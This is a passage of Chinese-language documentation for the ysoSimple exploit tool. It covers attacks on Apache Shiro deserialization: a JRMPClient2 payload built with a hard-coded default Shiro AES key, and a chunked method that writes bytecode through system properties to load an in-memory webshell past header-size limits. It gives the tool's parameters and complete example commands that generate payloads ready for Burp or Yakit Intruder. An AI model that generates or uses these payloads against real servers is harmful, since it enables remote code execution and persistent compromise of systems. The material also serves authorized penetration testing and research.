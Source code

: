 2. 让目标系统反序列化JRMPClient2完成攻击：

```java
-m YsoAttack -g JRMPClient2 -a "127.0.0.1:1245" -shiro-encrypt "AES-CBC" -shiro-key "kPH+bIxk5D2deZiIxcaaaA=="
```

### 分块设置系统属性写马

描述：Shiro分块在目标系统中写字节码以解决字节码长度过长导致header发不过去。参考bmth666师傅写的[好文](http://www.bmth666.cn/2024/11/03/Shiro%E7%BB%95%E8%BF%87Header%E9%95%BF%E5%BA%A6%E9%99%90%E5%88%B6%E8%BF%9B%E9%98%B6%E5%88%A9%E7%94%A8/)，大师傅提供了三种方法，我在工具集成中了最后一种设置系统属性写字节码。

限制：注意以下限制

1. 我实践打成功的是CB利用链分块写马然后类加载，其他的利用链没有尝试和集成
2. 对于undertow，tomcat6.0等这种系统不能调用TemplatesImpl这种打法目前就应该不行了

工具：需要为ShiroChunkPayload类提供5个参数，各个参数的含义如下：

1. 参数一：反序列化的利用链，CommonsBeanutils2
2. 参数二：加密模式GCM或者CBC
3. 参数三：AES加密的密钥Key
4. 参数四：需要分块加载的字节码的位置
5. 参数五：分块Payload输出的文件位置，一行一个Payload方便用于Burp/Yakit的Intruder

ShiroChunkPayload部分使用设置系统属性来分块写字节码，调用线程上下文类加载器来加载内存马。字节码分块时候默认按照每块字节码的1000长度来分然后Gadget封装。TemplatesImpl和Java字节码都没有进行Compress压缩处理，所以Gadget没有使用任何缩短技术，这块其实还可以做文章来缩短Payload。Usage:

```bash
java -cp ysoSimple.jar cn.butler.yso.exploit.ShiroChunkPayload [-g <gadget>] [-m <aseModel>] [-k <shiroKey>] [-f <fileClassByteCode>] [-o <fileOutput>] [-h]
```

例如：

```bash
java -cp ysoSimple.jar cn.butler.yso.exploit.ShiroChunkPayload -g CommonsBeanutils2 -m CBC -k kPH+bIxk5D2deZiIxcaaaA== -f /tmp/HTMLUtil.class -o /tmp/ShiroChunk.txt
```

使用上述命令后的工具生成的最终效果：![image-20250105141522481](images/image-20250105141522481.png)
